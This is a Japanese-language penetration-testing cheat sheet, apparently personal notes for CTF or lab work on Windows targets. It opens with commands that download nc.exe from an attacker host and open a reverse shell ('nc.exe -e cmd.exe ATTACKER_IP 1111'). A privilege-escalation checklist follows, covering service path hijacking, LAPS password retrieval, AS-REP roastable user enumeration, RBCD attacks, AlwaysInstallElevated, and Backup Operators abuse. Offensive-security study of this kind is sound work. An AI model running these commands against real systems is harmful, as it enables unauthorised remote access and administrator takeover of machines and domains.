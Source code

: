攻撃対象でcurlを用いてncをダウンロードして実行。

```powershell
cd \\programdata
curl http://ATTACKER_IP:8080/nc.exe -o nc.exe
```

ローカルでリバースシェル用のポートを立ち上げる。

```powershell
rlwrap nc -nlvp 1111
```

攻撃対象でncを実行。

```powershell
nc.exe -e cmd.exe ATTACKER_IP 1111
```

あるいはpowershellを実行しても良い。

```powershell
nc.exe -e powershell.exe ATTACKER_IP 1111
```

## 権限昇格

- `whoami /all` でユーザの所属グループや権限を確認
- `tasklist` で怪しいアプリケーションを探す
    - リモート接続のアプリケーションなど
    - 怪しいアプリケーションがある場合は既知の脆弱性がないか検索
    - 怪しいアプリケーションをの具体的な中身は `C:\\Program Files` を参照。
- とりあえずwinPEASを実行してみる
- Server Operatorsグループに属している場合はサービスを編集することができるので、 `sc` コマンドを用いてVSSのような管理者権限で動作するデフォルトのサービスの実行パスを変更してリバースシェルを確立可能
- `netstat -ano | findstr TCP | findstr ":0"` コマンドを実行してすべてのアドレスからの接続を受け付けているTCPポートを表示
    - プロセスIDは頻繁に変化するので何回か実行しないと表示されないプロセスが存在する可能性
    - 出力から怪しいポートを見つけたらそのプロセスIDを `tasklist /v | findstr PID` で検索して具体的に調べてみる
- 怪しい実行ファイルを見つけたら `searchsploit` やGoogleでそのファイル名の脆弱性を調べてみる
- `net user USER_NAME` で現在のユーザの所属グループなどを確認
- PowerShellのコマンド履歴( `ConsoleHost_history.txt` )を確認
- LAPSに関する何かしらの権限を持っている場合はローカル管理者のパスワードを取得できる可能性
- Kerberosの事前認証が無効になっているユーザを探す
    - `Get-ADUser -Filter * -Properties DoesNotRequirePreAuth | Where-Object {$_.DoesNotRequirePreAuth -eq $true} | Select-Object Name,SamAccountName`
- 平行移動先のアカウント(または管理者アカウント)が所属するグループが `GenericAll` 権限を有しており、シェル奪取済みのアカウントに対して権限委譲がされている場合、RBCD攻撃が可能
    - `PowerView.ps1` や `Powermad.ps1` をアップロードしたうえで攻撃を試す
- BloodHoundでコントロール済みのユーザの権限やグループの関係、目標となる管理者アカウント、DCまでのパスなどを把握しておく
- `AlwaysInstallElevated` がHKCUとHKLM両方で有効な場合は権限昇格が可能
- `Backup Operators` グループに所属している場合は権限昇格が可能
    - これ以外にも怪しいグループがあったら権限昇格の糸口がないか検索してみた方が良い